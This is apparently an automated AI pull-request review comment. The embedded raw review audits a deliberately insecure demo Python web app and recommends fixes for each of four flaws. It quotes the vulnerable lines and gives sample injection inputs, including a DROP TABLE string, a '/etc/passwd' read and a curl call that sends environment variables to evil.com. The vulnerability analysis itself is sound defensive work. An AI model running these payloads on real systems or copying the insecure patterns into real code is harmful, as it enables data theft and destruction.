

<!-- torii-review pr=bench-f70 run=local -->
## 🏴‍☠️ Torii Review — PR #bench-f70

**Verdict:** COMMENT
**Confidence:** low
**Score:** 40/100
**Review effort:** 2/5

### Summary
Agent output did not match the review contract (missing: ### Security audit). Raw content preserved below.

### Walkthrough
- Contract repair only — re-run for a full structured review

### Architecture diagram
<!-- torii-mermaid -->

_Auto-generated from 0 changed file(s) (F57). Edges between groups are adjacency, not proven runtime dependencies._



### Blocking
- None (contract repair — re-run if this looks incomplete)

### Key findings
None — normalizer fallback.

### Security audit
No

### Suggestions
- None

### Code suggestions
None

### Nits
- None

### Suggested test plan
<!-- torii-testplan -->

_Auto-generated (F61, deterministic). 0 case(s) (0 P0, 0 P1); 0 prod / 0 test file(s); 0 symbol(s) from diff. Authors: treat P0 as merge-blocking coverage gaps; model may refine._

None — no actionable test scenarios derived from files/diff.

### Tests & risk
- Relevant tests added/updated: unknown
- Coverage: unknown
- Risk: unknown
- Rollback: n/a

### What I checked
- Normalizer only

### Raw agent output
---

**Verdict:** REQUEST CHANGES  
**Score:** 0 / 100  
**Review effort:** 1 / 5  
**Security audit:** CRITICAL — 4 confirmed sinks, 0 mitigations

### Summary
This file (`demo/insecure/app.py`) is intentionally marked "DO NOT deploy" and delivers on that warning. All 38 lines introduce four independently exploitable critical vulnerabilities with no authentication, no input validation, and no safe defaults. Every endpoint is a direct security sink.

### Blocking
All four findings below are blocking. No endpoint is safe to deploy.

### Key findings
| # | CWE | Severity | Path | Trigger |
|---|-----|----------|------|---------|
| 1 | CWE-89 | Critical | `demo/insecure/app.py:18` | `GET /search?q='; DROP TABLE items; --` — user-controlled `q` interpolated directly into SQL via f-string, no parameterization |
| 2 | CWE-502 | Critical | `demo/insecure/app.py:26` | `POST /load` with a crafted pickle payload — `pickle.loads()` on attacker-controlled bytes yields arbitrary code execution |
| 3 | CWE-78 | Critical | `demo/insecure/app.py:33` | `GET /run?cmd=; cat /etc/passwd` — `shell=True` on unsanitized user input passes the string to the OS shell, full RCE |
| 4 | CWE-200 / CWE-798 | High | `demo/insecure/app.py:37-38` | `GET /secret` returns `OPENROUTER_API_KEY` from the environment to any unauthenticated caller — credential exfiltration |

#### Finding 1 — SQL Injection (CWE-89)

`demo/insecure/app.py:18`:
```python
cur.execute(f"SELECT * FROM items WHERE name = '{q}'")
```
`q` comes from `request.args.get("q", "")` (line 15) with zero sanitization. An attacker sends `?q=' OR 1=1 --` to dump the table or `?q='; DROP TABLE items; --` to destroy data. Fix: parameterized query — `cur.execute("SELECT * FROM items WHERE name = ?", (q,))`.

TP signature match: `sqli-search` (score 0.9938, hub_boost).

#### Finding 2 — Insecure Deserialization (CWE-502)

`demo/insecure/app.py:26`:
```python
return {"obj": str(pickle.loads(data))}
```
`data` is raw `request.data` (line 25) — the full POST body. `pickle.loads()` executes arbitrary Python during unpickling. An attacker sends a pickled `os.system("rm -rf /")` payload to achieve RCE. There is no safe way to use `pickle` on untrusted input. Fix: use `json.loads()` or a safe serialization format; never unpickle attacker-controlled bytes.

TP signature match: `pickle-load` (score 0.9563, hub_boost).

#### Finding 3 — Command Injection (CWE-78)

`demo/insecure/app.py:33`:
```python
return {"out": subprocess.check_output(cmd, shell=True).decode()}
```
`cmd` comes from `request.args.get("cmd", "echo hi")` (line 32). `shell=True` passes the string through `/bin/sh -c`, allowing shell metacharacters (`;`, `|`, `&&`, `$()`, backticks). Attacker sends `?cmd=; cat /etc/passwd` or `?cmd=; curl http://evil.com/$(env)` to execute arbitrary commands. Fix: use `shell=False` with an argument list, or better, avoid passing user input to `subprocess` entirely.

TP signature match: `cmdi-run` (score 1.0, hub_boost).

#### Finding 4 — Secret Exposure (CWE-200 / CWE-798)

`demo/insecure/app.py:37-38`:
```python
@app.get("/secret")
def secret():
    return {"key": os.environ.get("OPENROUTER_API_KEY", "missing")}
```
No authentication, no authorization — any caller hitting `GET /secret` receives the `OPENROUTER_API_KEY` environment variable. This is a credential exfiltration endpoint. If the key is set, the attacker gets a live API key for OpenRouter. Fix: remove this endpoint entirely; secrets should never be exposed over HTTP.

TP signature match: `secret-exposure` (score 0.9751, hub_boost).

### Multi-lens checklist
| Lens | Verdict | Note |
|------|---------|------|
| Injection (SQL) | **concern** | `app.py:18` — f-string SQL, no param |
| Injection (Command) | **concern** | `app.py:33` — `shell=True` + user input |
| Deserialization | **concern** | `app.py:26` — `pickle.loads()` on raw POST |
| Secrets / credentials | **concern** | `app.py:38` — env var exposed via endpoint |
| Authentication / authz | **conce
…
_(raw truncated by normalizer)_

---
*Torii · Hermes Agent · OpenRouter · memory-backed review*
*Cost / usage: model=`deepseek/deepseek-v4-pro` · ~$0.01 (estimated) · 36k tokens · 3 API calls*
